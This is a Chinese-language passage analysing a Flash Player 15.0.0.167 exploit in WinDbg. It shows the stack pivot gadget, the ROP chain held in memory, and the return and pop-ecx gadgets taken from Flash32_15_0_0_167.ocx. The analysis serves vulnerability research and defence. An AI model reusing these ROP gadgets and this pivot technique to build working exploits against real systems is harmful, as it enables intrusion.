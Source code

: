 我们查看一下0x5e8805bb处的反汇编代码：

```
1:021> u 5e8805bb
Flash32_15_0_0_167+0x205bb:
5e8805bb 94     xchg eax,esp
5e8805bc c3     ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/da0f46824c1e3dcd3121b1a2fd1570cd7f3e47a1.jpg)

这就是stack pivot gadget，这意味着攻击者控制着eax的值以及它指向的数据。让我们查看一下：

```
1:021> dd eax
070ab000 5e861193 5e861193 5e861193 5e861193
070ab010 5e861193 5e861193 5e861193 5e861193
070ab020 5e861193 5e861193 5e861193 5e861193
070ab030 5e861193 5e861193 5e861193 5e861193
070ab040 5e861193 5e861193 5e861193 5e861193
070ab050 5e861193 5e861193 5e861193 5e861193
070ab060 5e861193 5e861193 5e861193 5e861192
070ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478

```

![enter image description here](http://drops.javaweb.org/uploads/images/13ecafd81d0cec42da131a3cf26669d4778b5759.jpg)

在我们的ROP载荷中，所有的gadgets都来自于Flash32_15_0_0_167.ocx这个模块。

同时，需要注意的是stack pivot后，原始的esp的值将存储在eax中。

在ROP链中可以看到很多的gadgets指向0x5e861193，正如下面所看到的的，他们都是返回指令。

```
1:021> u 5e861193
Flash32_15_0_0_167+0x1193:
5e861193 c3  ret

```

上面一系列返回指令执行之后，我们可以看到

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59  pop ecx
5e861193 c3  ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/4a1a40111c43a8a8157b9cdb73695702f7f330ae.jpg)

这个ROP gadget将ecx的值设置为0x5e8805bb

```
1:021> dd esp
070ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478
070ab080 5e8c1478 5e861192 5e8e2e45 5e89a4ca

```
